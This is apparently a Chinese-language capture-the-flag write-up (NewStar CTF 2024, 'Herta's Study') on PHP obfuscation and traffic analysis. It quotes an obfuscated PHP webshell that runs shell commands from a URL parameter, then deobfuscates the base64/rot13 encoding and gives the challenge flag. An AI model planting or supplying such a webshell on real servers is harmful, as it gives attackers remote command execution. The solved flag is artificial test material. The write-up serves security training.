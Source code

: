 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

# Herta's Study

本题考点：PHP混淆，流量分析

建议配合unk师傅的前两道流量题食用

第七条流量是上传的php木马

```php
<?php
    $payload=$_GET['payload'];
    $payload=shell_exec($payload);
    $bbb=create_function(
        base64_decode('J'.str_rot13('T').'5z'),
        base64_decode('JG5zPWJhc2U2NF9lbmNvZGUoJG5zKTsNCmZvcigkaT0wOyRpPHN0cmxlbigkbnMpOyRp
        Kz0xKXsNCiAgICBpZigkaSUy'.str_rot13('CG0kXKfAPvNtVPNtVPNtWT5mJlEcKG1m').'dHJfcm90MTMoJG5zWyRpXSk7DQo
        gICAgfQ0KfQ0KcmV0dXJuICRuczs==')
    );  
    echo $bbb($payload);
?>
```

(可以搜索一下create_funtion()函数) 解除混淆后得到加密代码

```php
$ns=base64_encode($ns);
for($i=0;$i<strlen($ns);$i+=1){
    if($i%2==1){
        $ns[$i]=str_rot13($ns[$i]);
    }
}
return $ns;
```

就是base64后把奇数位rot13

解码反过来就行（第38条，f.txt里的是真flag，另一个是假flag）

```php
<?php
$ns='ZzxuZ3tmSQNsaGRsUmBsNzVOdKQkZaVZLa0tCt==';
for($i=0;$i<strlen($ns);$i+=1){
    if($i%2==1){
        $ns[$i]=str_rot13($ns[$i]);
    }
}
echo base64_decode($ns);
//flag{sH3_i4_S0_6eAut1fuL.}
?>
```
